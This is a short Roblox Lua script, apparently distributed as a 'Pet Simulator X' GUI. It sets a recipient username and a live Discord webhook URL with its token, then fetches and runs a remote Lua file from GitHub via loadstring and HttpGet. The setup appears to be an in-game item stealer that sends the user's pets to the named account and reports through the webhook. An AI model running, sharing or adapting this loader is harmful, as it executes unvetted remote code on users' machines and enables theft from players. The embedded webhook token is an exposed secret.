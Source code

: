Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084271025178554460/99mUT5ZYsd7xFeyPExnT_LtG-XjVTFEVz7_EgUwgZswEci31KQR_XXbk7XchRec2-P2T"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script PROSTI TEBYA SCAMHULI"

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
